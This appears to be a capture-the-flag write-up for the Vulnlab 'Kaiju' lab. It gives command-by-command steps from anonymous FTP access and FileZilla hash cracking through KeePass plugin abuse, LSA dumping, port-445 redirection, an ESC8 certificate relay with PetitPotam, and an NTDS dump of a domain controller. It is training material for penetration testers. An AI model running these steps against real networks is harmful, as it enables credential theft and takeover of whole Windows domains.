


# Before Starting
```console
Me > 10.8.2.163
Target > 10.10.200.181 ; 10.10.200.182 ; 10.10.200.183
```
```bash
Machine 0x1
Host is up (0.019s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server

Machine 0x2
Host is up (0.019s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
3389/tcp open  ms-wbt-server

Machine 0x3
Host is up (0.018s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```
```bash
ftp 10.10.200.182
# use ftp as user without password for login
```
There is 3 files .txt, open it :

```bash
# ftp.txt
ftp:ftp
# firewalls.txt
firewall:firewall123
# local.txt
administrator:[Moved to KeePass]
```
There is also a file 'users.xml' with this :

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<filezilla xmlns:fz="https://filezilla-project.org" xmlns="https://filezilla-project.org" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" fz:product_flavour="standard" fz:product_version="1.8.0">
        <default_impersonator index="0" enabled="false">
                <name></name>
                <password></password>
        </default_impersonator>
        <user name="&lt;system user>" enabled="false">
                <mount_point tvfs_path="/" access="1" native_path="" new_native_path="%&lt;home>" recursive="2" flags="0" />
                <rate_limits inbound="unlimited" outbound="unlimited" session_inbound="unlimited" session_outbound="unlimited" />
                <allowed_ips></allowed_ips>
                <disallowed_ips></disallowed_ips>
                <session_open_limits files="unlimited" directories="unlimited" />
                <session_count_limit>unlimited</session_count_limit>
                <description>This user can impersonate any system user.</description>
                <impersonation login_only="false" />
                <methods>1</methods>
        </user>
        <user name="backup" enabled="true">
                <mount_point tvfs_path="/" access="1" native_path="" new_native_path="E:\Private" recursive="2" flags="0" />
                <rate_limits inbound="unlimited" outbound="unlimited" session_inbound="unlimited" session_outbound="unlimited" />
                <allowed_ips></allowed_ips>
                <disallowed_ips></disallowed_ips>
                <session_open_limits files="unlimited" directories="unlimited" />
                <session_count_limit>unlimited</session_count_limit>
                <description></description>
                <password index="1">
                        <hash>ZqRNhkBO8d4VYJb0YmF7cJgjECAH43MHdNABkHYjNFU</hash>
                        <salt>aec9Yt49edyEvXkZUinmS52UrwNoNNgoM+6rK3fuFFw</salt>
                        <iterations>100000</iterations>
                </password>
                <methods>1</methods>
        </user>
        <user name="ftp" enabled="true">
                <mount_point tvfs_path="/" access="1" native_path="" new_native_path="E:\Public" recursive="2" flags="0" />
                <rate_limits inbound="unlimited" outbound="unlimited" session_inbound="unlimited" session_outbound="unlimited" />
                <allowed_ips></allowed_ips>
                <disallowed_ips></disallowed_ips>
                <session_open_limits files="unlimited" directories="unlimited" />
                <session_count_limit>unlimited</session_count_limit>
                <description></description>
                <password index="0" />
                <methods>0</methods>
        </user>
</filezilla>
```
I asked some questions about this file to ChatGPT and he said me that the hash.txt should be like that : ```<hash>:<salt>:<iterations>```, he also said to me that the algorithm may be ```PBKDF2-HMAC-SHA256```, let's do some research with theses informations

[This link](https://forum.filezilla-project.org/viewtopic.php?t=58615#p189564) can confirm to us that is ```PBKDF2-HMAC-SHA256```


Let's do this :

```console
sha256:100000:aec9Yt49edyEvXkZUinmS52UrwNoNNgoM+6rK3fuFFw:ZqRNhkBO8d4VYJb0YmF7cJgjECAH43MHdNABkHYjNFU

hashcat -m 10900 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
But after waiting a very long time i got no result, so i told myself that i had to create a custom wordlist (something that is "frequent" on vulnlab), and i added a rule

```bash
# wordlist.txt
kaiju
backup
filezillatp
kaiju2024
backup2024
filezilla2024
kaiju2023
backup2023
filezilla2023

hashcat -m 10900 -a 0 hash.txt wordlist.txt -r OneRuleToRuleThemStill/OneRuleToRuleThemStill.rule
```
[The Rule](https://viperone.gitbook.io/pentest-everything/resources/hashcat-word-lists-and-rules#oneruletorulethemallstill)


Nice !!

We can ssh like this

```bash
ssh backup@10.10.200.182
```
If we return in ```users.xml``` we can found ```new_native_path="E:\Public"```

After some enumeration in ```E:\``` we can found 2 files that are interesting :

```powershell
PS E:\Program Files\FileZilla Server\install.log
PS E:\Program Files\FileZilla Server\Logs\filezilla-server.log
```
In install.log : 
```console
Crypt output: [--admin.password@index=1 --admin.password.hash=mSbrgj1R6oqMMSk4Qk1TuYTchS5r8Yk3Y5vsBgf2tF8 --admin.password.salt=AdRNx7rAs1CEM23S5Zp7NyAQYHcuo2LuevU3pAXKB18 --admin.password.iterations=100000]
```

And the ```filezilla-server.log```

```console
2023-12-17T15:19:45.021Z == Settings written to C:\Users\sasrv200\AppData\Local\filezilla-server\groups.xml.
2023-12-17T15:19:45.021Z == Settings written to C:\Users\sasrv200\AppData\Local\filezilla-server\users.xml.
2023-12-17T15:19:45.146Z == Settings written to C:\Users\sasrv200\AppData\Local\filezilla-server\disallowed_ips.xml.
2023-12-17T15:19:45.146Z == Settings written to C:\Users\sasrv200\AppData\Local\filezilla-server\settings.xml.
2023-12-17T15:19:45.146Z == Settings written to C:\Users\sasrv200\AppData\Local\filezilla-server\allowed_ips.xml.
2023-12-17T15:19:50.989Z == Settings written to C:\Users\sasrv200\AppData\Local\filezilla-server\groups.xml.
2023-12-17T15:19:50.989Z == Settings written to C:\Users\sasrv200\AppData\Local\filezilla-server\users.xml.
2023-12-17T15:19:51.099Z == Settings written to C:\Users\sasrv200\AppData\Local\filezilla-server\disallowed_ips.xml.
2023-12-17T15:19:51.099Z == Settings written to C:\Users\sasrv200\AppData\Local\filezilla-server\settings.xml.
2023-12-17T15:19:51.099Z == Settings written to C:\Users\sasrv200\AppData\Local\filezilla-server\allowed_ips.xml.
2023-12-17T15:19:51.505Z == Settings written to C:\Users\sasrv200\AppData\Local\filezilla-server\groups.xml.
2023-12-17T15:19:51.505Z == Settings written to C:\Users\sasrv200\AppData\Local\filezilla-server\users.xml.
2023-12-17T15:19:51.615Z == Settings written to C:\Users\sasrv200\AppData\Local\filezilla-server\disallowed_ips.xml.
2023-12-17T15:19:51.615Z == Settings written to C:\Users\sasrv200\AppData\Local\filezilla-server\settings.xml.
2023-12-17T15:19:51.615Z == Settings written to C:\Users\sasrv200\AppData\Local\filezilla-server\allowed_ips.xml.
2023-12-17T15:19:55.521Z == [Administration Server] Administration client with ID 3 disconnected without error
2023-12-17T15:19:55.521Z == [Administration Server] Session 3 ended gracefully.
2023-12-17T15:26:50.073Z == ===== FileZilla Server 1.8.0 new logging started =====
2023-12-17T15:26:50.073Z == Setting up TLS for the FTP Server
2023-12-17T15:26:50.089Z == SHA1 certificate fingerprint: ad:85:50:b5:08:9e:34:a7:8b:b9:d8:ef:3a:67:66:8c:c3:dc:55:02
2023-12-17T15:26:50.089Z == SHA256 certificate fingerprint: 3e:c7:e7:ef:c6:85:c9:7e:3f:e5:a1:3b:4f:2d:4e:93:2b:e2:f5:27:03:7f:e8:8e:60:e2:ae:4a:16:36:77:09
2023-12-17T15:26:50.089Z == Setting up TLS for the Administration Server
2023-12-17T15:26:50.089Z == SHA256 certificate fingerprint: 72:30:ea:81:80:0f:33:99:cc:70:52:1e:7c:bc:6f:ba:2c:4d:4b:0d:6f:bc:fe:61:7e:e6:c1:06:38:d5:3d:9d
2023-12-17T15:26:50.089Z == [FTP Server] Listening on 0.0.0.0:21.
2023-12-17T15:26:50.089Z == [FTP Server] Listening on [::]:21.
2023-12-17T15:26:50.089Z == [Administration Server] Listening on 127.0.0.1:14148.
2023-12-17T15:26:50.089Z == [Administration Server] Listening on [::1]:14148.
2023-12-27T07:28:03.551Z == ===== FileZilla Server 1.8.0 new logging started =====
2023-12-27T07:28:03.551Z == Setting up TLS for the FTP Server
2023-12-27T07:28:03.567Z == SHA1 certificate fingerprint: ad:85:50:b5:08:9e:34:a7:8b:b9:d8:ef:3a:67:66:8c:c3:dc:55:02
2023-12-27T07:28:03.567Z == SHA256 certificate fingerprint: 3e:c7:e7:ef:c6:85:c9:7e:3f:e5:a1:3b:4f:2d:4e:93:2b:e2:f5:27:03:7f:e8:8e:60:e2:ae:4a:16:36:77:09
2023-12-27T07:28:03.567Z == Setting up TLS for the Administration Server
2023-12-27T07:28:03.567Z == SHA256 certificate fingerprint: 72:30:ea:81:80:0f:33:99:cc:70:52:1e:7c:bc:6f:ba:2c:4d:4b:0d:6f:bc:fe:61:7e:e6:c1:06:38:d5:3d:9d
2023-12-27T07:28:03.567Z == [FTP Server] Listening on 0.0.0.0:21.
2023-12-27T07:28:03.567Z == [FTP Server] Listening on [::]:21.
2023-12-27T07:28:03.584Z == [Administration Server] Listening on 127.0.0.1:14148.
2023-12-27T07:28:03.584Z == [Administration Server] Listening on [::1]:14148.
```
So we can try to crack to do the same thing like that :

```console
sha256:100000:AdRNx7rAs1CEM23S5Zp7NyAQYHcuo2LuevU3pAXKB18+6rK3fuFFw:mSbrgj1R6oqMMSk4Qk1TuYTchS5r8Yk3Y5vsBgf2tF8
```

```bash
hashcat -m 10900 -a 0 hash2.txt wordlist.txt -r OneRuleToRuleThemStill/OneRuleToRuleThemStill.rule
```


Ok now we can try to forward port 14148 to access to the ```Administration Server``` of FileZilla

```bash
ssh -L 14148:localhost:14148 backup@10.10.200.182
```
Download ```FileZilla Server``` and in ```Server ---> Configure```, select ```Users, backup``` and there is ```Mount points``` with a ```Native Path``` to E:\Private, we can change this to ```C:\Users\sasrv200``` to put our ssh key because we have ```READ + WRITE``` rights


After changing the ```Native Path```, just login on the ftp with backup creds and put ```authorized_keys```

Then we can login as sasrv200 :

```bash
ssh -i id_rsa sasrv200@10.10.200.182
```
Now, if we return on ```E:\Public``` we can see a file ```it.kdbx```, download him


I tried to crack him but we cant, but after some research i saw this 


So i google something like ```Keepass Plugins exploit``` and i found some links [https://skr1x.github.io/keepass-dll-hijacking/](https://skr1x.github.io/keepass-dll-hijacking/), [https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/credential-harvesting/keepass](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/credential-harvesting/keepass)

Using [this tool](https://github.com/xct/winpspy) we can see that KeePass is constantly ran (upload the file with ftp)



Ok so let's start, first we need to enable plugins in ```KeePass.config.xml``` [like that](https://github.com/d3lb3/KeeFarceReborn/tree/main?tab=readme-ov-file#possible-caveats), [https://keepass.info/help/kb/config_enf.html#ex](https://keepass.info/help/kb/config_enf.html#ex)

```xml
<?xml version="1.0" encoding="utf-8"?>
<Configuration xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
        <Security>
                <Policy>
                        <Plugins>true</Plugins>
                        <Export>true</Export>
                </Policy>
        </Security>
</Configuration>
```
Now we gonna use [this](https://github.com/x746b/KeeFarceReborn), put the .dll in ```E:\Public\Software\KeePass2\Plugins```, 

I also replaced the .exe by the .exe in the repo github, i don't know if it's necessary but i do it



Nice ! Now open the export.xml and get the Administrator password to dump the lsa

```bash
proxychains -q nxc smb 10.10.200.182 -u 'Administrator' -p 'REDACTED' --local-auth --lsa

SMB         10.10.200.182   445    BERSRV200        kaiju.vl\sasrv200:REDACTED
SMB         10.10.200.182   445    BERSRV200        kaiju.vl\clare.frost:REDACTED
```
Clare.Frost is a valid user on the DC

```bash
proxychains -q nxc ldap 10.10.200.181 -u 'clare.frost' -p 'REDACTED'
SMB         10.10.200.181   445    BERSRV100        [*] Windows Server 2022 Build 20348 x64 (name:BERSRV100) (domain:kaiju.vl) (signing:True) (SMBv1:False)
LDAP        10.10.200.181   389    BERSRV100        [+] kaiju.vl\clare.frost:REDACTED
```
Now if we do some ADCS enumeration like this 

```bash
proxychains -q certipy find -u 'clare.frost'@'BERSRV100.kaiju.vl' -p 'REDACTED' -dc-ip '10.10.200.181' -vulnerable -stdout -debug
```
We can found this :


But we have a domain controller that can't reach our attacker box directly. So we need to port forward 445 from an internal machine to our attacker box.

[https://posts.specterops.io/relay-your-heart-away-an-opsec-conscious-approach-to-445-takeover-1c9b4666c8ac](https://posts.specterops.io/relay-your-heart-away-an-opsec-conscious-approach-to-445-takeover-1c9b4666c8ac)

I'm gonna use StreamDivert for this context, just create a file ```toto.txt``` with this :

```console
tcp < 445 0.0.0.0 -> 127.0.0.1 8445
```
And put him on the target


But before running StreamDivert we need to do a reverse forward with ssh like that :

```bash
ssh -D 9999 -R 8445:127.0.0.1:445 Administrator@10.10.200.182
```
Ok now run StreamDivert like that :

```powershell
.\StreamDivert.exe toto.txt -f -v
```
Now we can run our ESC8 attack :

[A link here if you dont know how it works](https://www.thehacker.recipes/ad/movement/adcs/unsigned-endpoints#web-endpoint-esc8)

```bash
proxychains -q ntlmrelayx.py -t "http://BERSRV105.kaiju.vl/certsrv/certfnsh.asp" -smb2support --adcs --template "DomainController"

# and on another terminal 

proxychains petitpotam.py -d "kaiju.vl" -u "clare.frost" -p "REDACTED" "10.10.200.182" "10.10.200.181"
```


Ok now we just need to export this base64 certificate like that :

```bash
echo "b64 certificate" | base64 -d > administrator.pfx

# then use the pfx to retrieve the hash and a ccache
proxychains -q certipy auth -pfx administrator.pfx

export KRB5CCNAME='bersrv100.ccache'

# and dump ntds
proxychains -q nxc smb 10.10.200.181 --use-kcache --ntds

Administrator:500:aad3b435b51404eeaad3b435b51404ee:0b[...]40:::

# and u can connect to the smb to retrieve the root flag
proxychains -q smbclient.py 'bersrv100.kaiju.vl'/'Administrator'@10.10.200.181 -hashes :'0b[...]40'
```
Nice ! if you have any questions or comments on this write up you can dm me on [instagram](https://instagram.com/eliott.la) or on discord : 'ethicxz.'

